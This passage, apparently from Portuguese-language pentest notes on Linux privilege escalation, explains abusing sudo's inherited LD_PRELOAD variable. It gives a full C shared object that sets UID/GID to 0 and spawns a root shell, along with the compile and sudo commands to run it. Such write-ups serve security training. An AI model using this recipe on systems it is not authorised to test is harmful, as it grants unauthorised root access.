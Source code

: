 ```bash
sudo -l  # verificar lista dos programas que podem ser usados para elevar privilégios: https://gtfobins.github.io/
```

---

### 5.1. Sudo - Variáveis de Ambiente

LD_PRELOAD e LD_LIBRARY_PATH são ambos herdados do ambiente do usuário. LD_PRELOAD carrega um objeto compartilhado antes de qualquer outro quando um programa é executado. LD_LIBRARY_PATH fornece uma lista de diretórios onde as bibliotecas compartilhadas são pesquisadas primeiro.

```bash
sudo -l # Este comando lista os programas que o sudo permite que o usuário execute
```

Sudo pode ser configurado para herdar certas variáveis ​​de ambiente do ambiente do usuário.

---

#### Sudo - Variáveis de Ambiente - LD_PRELOAD

-   Criar o ficheiro /home/user/tools/sudo/preload.c

```bash
mkdir /home/user/tools/sudo/
touch /home/user/tools/sudo/preload.c
nano /home/user/tools/sudo/preload.c
```

-   copiar o código abaixo, gravar (Ctrl+o) e sair (Ctrl+x)

```c
#include​ <stdio.h>
#include​ <sys/types.h>
#include​ <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
	}
```

-   Compilar

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

-   Execute um dos programas com permissões administrativas via sudo, previamente listados, enquanto define a variável de ambiente LD_PRELOAD para o caminho completo do novo objeto compartilhado:

```bash
sudo LD_PRELOAD=/tmp/preload.so nomeDoProgramaComPermissõesSudo
```

---